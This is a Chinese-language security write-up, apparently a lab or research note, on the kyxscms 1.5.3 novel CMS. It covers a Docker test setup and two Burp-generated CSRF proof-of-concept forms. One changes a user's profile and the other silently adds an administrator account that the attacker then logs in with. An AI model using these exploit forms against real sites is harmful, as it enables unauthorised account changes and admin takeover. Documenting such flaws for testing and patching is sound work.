






### kyxscms（狂雨小说）

```
版本信息：1.5.3
# 拉取镜像
docker pull sqlsec/alpine-lamp

# 运行容器 记住要指定密码
docker run -d -p 8080:80 -e MYSQL_ROOT_PASSWORD=root sqlsec/alpine-lamp

安装php7-fileinfo
apk add php7-fileinfo
```

#### CSRF修改个人签名

首先注册一个普通用户，然后抓包构造恶意代码

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.195:12343/user/user/info.html" method="POST">
      <input type="hidden" name="email" value="test&#64;qq&#46;com" />
      <input type="hidden" name="introduce" value="test" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

然后将引导受害者访问恶意文件，受害者在火狐浏览器登录了账号的情况下访问了该恶意文件，个人信息即可被修改

受害者原信息



访问恶意文件后





#### CSRF添加管理员

目前只有一个管理员



构造恶意文件诱导管理员访问

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.195:12343/admin/member/add.html" method="POST">
      <input type="hidden" name="username" value="test2" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

成功添加管理员



利用添加的管理员登录



